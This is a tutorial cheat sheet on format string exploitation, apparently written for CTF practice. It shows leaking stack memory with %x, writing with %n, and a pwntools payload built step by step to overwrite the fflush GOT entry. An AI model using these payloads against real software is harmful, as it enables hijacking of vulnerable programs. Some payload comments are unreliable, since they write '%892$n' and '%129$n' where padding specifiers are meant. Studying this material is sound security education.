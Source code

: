 # Format Strings

## Identification

Look for `printf()` family functions that do not handle user input correctly.  
E.g. `printf(user_input);`  

## Find Your Input in Memory

In the vulnerable input field, provide an easily identifiable sequence of characters, e.g. `aaaabbbbccccdddd`  
followed by many `.%x` sequences. In the output, look for `61616161.62626262.63636363.64646464`.  

E.g.: Input: `aaaabbbb.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x` becomes  
Output: `aaaabbbb.8048914.ff811298.ff811330.ff8112a4.f7ee7444.f781f0e6.ff811564.abeb6602.f7ed64a0.61616161.62626262.2e78252e.252e7825.78252e78`  

You can then drill down to the specific leaks with `%10$x`, i.e. print the 10th hex value (dword size on 32bit,  qword on 64bit)  
Using the above example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  

## Writing to Memory

`%n` indicates how long a formatted string is at run time.  
When the `%n` is encountered during printf processing, the number of characters up to the current point  
are written to the address argument corresponding to the format specifier.  

E.g. `\xc8\x97\x04\x08.%x.%x.%.100x.%n` would write the integer `110` to the address `0x080497c8`.  
Each byte in the address counts as 1, each %x counts as 1, each '.' counts as 1, and the `%.100x` counts for 100.  
Address = 4,  
%x's = 2,  
'.' = 4,  
%.100x = 100,  
Total = 110.  

## Finding a Function to Overwite

Look for a function just after the vulnerable `printf()` function call.  
Ghidra (or another disassembler) can be used.  

`objdump -R <vulnerable_binary> | grep <function_after_printf)` will find that functions address within the binary (linux PIE disabled).  
Or open the binary in GBD, break on main (or anywhere) and run the binary, then type `got` into GDB and  
look for the desired function to overwrite (also PIE disabled).  

## Multiple Writes

If you want to overwrite a function pointer, to point to a different function (see the section on finding  
a function to overwrite) you need to perform multiple writes.  

If you want to overwrite the `fflush()` pointer that is found at `0x0804a028` you will  
need to perform writes at `0x0804a028`, `0x0804a029`, `0x0804a02a` and `0x0804a02b`.  
Depending on each starting value and what you need to change it to, you may need to  
write a number of bytes that overflows into into the next byte, setting that.  
E.g. Writing to `0x0804a028` to set the 1st byte, writing to `0x0804a029` to set  
the 2nd and 3rd byte, then `0x0804a02b` to set the 4th byte.  

Using the example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  
Print values and analyse in GDB: 
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  fmt0, # %10$n - writing bytes at the 10th position
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the starting value of the pointer: `x/2wx 0x0804a028` = `0x52005252`  

Our first write (LSB) needs to increase from `0x52` to `0x0b` (`0x10b`)  
0x10b - 0x52 = 0xb9 OR (int) 185.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0b010b0b` 

Second write needs to increase 2nd and 3rd bytes from `0x010b` to `0x0487`.  
0x487 - 0x10b = 0x37c OR (int) 892.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x8704870b` 

Third write needs to increase the 4th byte from `0x87` to `0x08` (`0x108`).  
0x108 - 0x87 = 0x81 OR (int) 129.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  flag_val2, # b"%129$n" - Write 129 bytes, plus the original 135 bytes (0x87) = 0x108
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0804870b` our desired value.  

## Read Strings From the Stack

If you have a format string bug and can dump hex values, you can begin to inspect any pointers to strings  
by calling `%s` on the pointer.  

E.g.:  

```bash
> %x.%x.%x.%x.%x.%x.%x.%x 
40.f7e1d620.8048647.0.1.f7fbd4a0.ffb3aee4.ffb3adcc
> %8$s
flag{flag}

```
